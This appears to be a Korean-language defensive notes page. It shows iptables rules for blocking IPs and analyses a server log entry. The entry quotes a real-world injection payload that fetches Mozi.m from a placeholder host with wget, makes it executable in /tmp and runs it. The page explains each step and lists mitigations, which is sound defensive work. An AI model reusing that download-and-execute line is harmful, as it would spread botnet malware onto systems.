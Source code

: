 # IP 차단

- 인바운드/아웃바운드 차단

> sudo iptables -A INPUT -s {차단할_IP} -j DROP

> sudo iptables -A OUTPUT -d {차단할_IP} -j DROP

- 재부팅시에도 유지 
> sudo iptables-save | sudo tee /etc/iptables/rules.v4


- 저장되어 있는 규칙 확인
> sudo iptables -L -n -v

![img_1.png](../img/2025/ipControl.png)



## 공격 로그

![img.png](../img/2025/logAttack.png)


---

## 웹 해킹 



## 에러 분석 및 대응 방법

### 1. **에러 분석**

```
java.lang.IllegalArgumentException: 
Invalid character found in method name 
[27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ ]
```

#### **원인 분석**
1. **Invalid character found in method name**:
    - HTTP 요청의 메서드 이름에서 유효하지 않은 문자가 발견됨.
    - HTTP 메서드는 일반적으로 `GET`, `POST`, `PUT`, `DELETE` 등으로 구성되어야 하지만, 메서드 이름에 명령어 문자열이 포함되어 있어 에러 발생.

2. **Request details**:
    - 요청에 포함된 `wget http://%s:%d/Mozi.m`은 파일 다운로드 명령어로 보이며, 이는 **공격자가 악성 파일을 다운로드하고 실행**하려는 시도.

3. **`wget`**:
    - Linux/Unix 시스템에서 URL을 통해 파일을 다운로드하는 명령어.
    - **리모트 코드 실행(Remote Code Execution, RCE)** 공격에서 악성 스크립트를 다운로드할 때 자주 사용됨.

4. **`/tmp/Mozi.m`**:
    - 다운로드하려는 파일의 저장 경로.
    - `/tmp/` 디렉터리는 임시 파일 저장소로 악성 파일이 실행될 위험이 있음.

5. **`chmod 777`**:
    - **모든 사용자에게 읽기, 쓰기, 실행 권한을 부여**하는 명령어.
    - 이를 통해 공격자가 다운로드한 악성 파일을 실행 가능하게 만듦.

---

### 2. **공격 패턴**
- 이 요청은 **웹 쉘(Web Shell) 공격**의 일부일 가능성이 높음.
- 공격자는 리모트 코드 실행(RCE)을 통해 서버에 악성 파일을 다운로드하고, 권한을 부여하여 실행하려는 시도를 하고 있음.

---

### 3. **가능한 대응 방법**

#### 1. **웹 방화벽(WAF) 적용**
- **WAF**를 통해 악성 요청을 필터링.
- `wget`, `chmod`와 같은 명령어를 포함한 요청을 차단.

#### 2. **로그 분석 및 모니터링 강화**
- 해당 요청이 발생한 **IP 주소 추적**:
    - 악성 요청의 출처를 확인하고, 비정상적인 활동을 탐지.
    - 관련 IP를 방화벽에서 **차단**.

#### 3. **서버 보안 강화**
- 서버의 보안 패치 업데이트:
    - 최신 상태로 유지하여 알려진 취약점을 차단.
- **파일 업로드 제한 및 디렉터리 권한 강화**:
    - `/tmp/`와 같은 디렉터리에서 실행 권한을 제거하여 악성 파일 실행 방지.

#### 4. **입력 검증 강화**
- **요청 입력 검증**:
    - 클라이언트에서 보내는 모든 입력을 철저히 검사.
    - 특수 문자나 의심스러운 문자열이 포함된 요청은 차단.

---

### 4. **결론**
- 이 로그는 **리모트 코드 실행 공격**의 일부로, 악성 파일을 서버에 다운로드하고 실행하려는 시도로 분석됨.
- 공격을 방지하기 위해:
    1. **웹 방화벽(WAF)**로 악성 요청 필터링.
    2. **보안 패치** 및 **권한 설정 강화**.
    3. **입력 검증**을 통해 악성 요청을 차단.

---


